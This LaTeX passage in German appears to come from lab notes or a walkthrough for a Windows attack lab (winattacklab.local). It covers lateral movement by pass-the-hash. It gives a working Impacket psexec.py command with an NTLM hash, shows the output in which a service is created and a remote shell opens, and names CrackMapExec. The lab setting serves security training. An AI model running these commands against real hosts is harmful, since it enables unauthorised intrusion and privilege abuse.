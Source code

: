 \subsection{Step 5B: Lateral Movement to FS1 via Local User}
Wir werden nun lernen, wie wir überprüfen können, ob dieser lokale Benutzer auch auf anderen Rechnern existiert. Wenn dies der Fall ist UND der Benutzer das gleiche Passwort hat, kann dies missbraucht werden, um mit einer Technik namens "pass-the-hash" seitlich auf das/die andere(n) System(e) zu gelangen.

Mit dem NTLM-Hash des Helpdesk-Benutzers können wir nun mit einem Tool namens \textbf{CrackMapExec} leicht überprüfen, ob dasselbe lokale Benutzerkonto (mit demselben Passwort) auf anderen Systemen existiert.\\

$\rightarrow$ Python Script für pass the hash attacken: \lstinline|psexec.py|\\

\begin{enumerate}
    \item psexec.py - python zum NTLM Hash probieren
    \item \textbf{psexec.py  -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101}
\end{enumerate}

\begin{lstlisting}[language=PowerShell]
    Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.0.1.101.....
    [*] Found writable share ADMIN$
    [*] Uploading file LZzQLrwi.exe
    [*] Opening SVCManager on 10.0.1.101.....
    [*] Creating service HIbO on 10.0.1.101.....
    [*] Starting service HIbO.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1397]
\end{lstlisting}

\subsubsection{CrackMapExec}
Mit dem NTLM-Hash des Helpdesk-Benutzers können wir nun mit einem Tool namens CrackMapExec leicht überprüfen, ob dasselbe lokale Benutzerkonto (mit demselben Passwort) auf anderen Systemen existiert.

\newpage

\subsection{Step 6: Situational Awareness on FS1}
Wir haben nun Zugriff auf den Host FS1.winattacklab.local mit administrativen Rechten erhalten. Das bedeutet, dass wir nicht mehr nach lokalen Methoden zur Privilegienerweiterung suchen müssen. Stattdessen ist das Ziel, andere wertvolle Informationen zu finden, die uns helfen könnten, andere Benutzer oder Hosts zu kompromittieren.

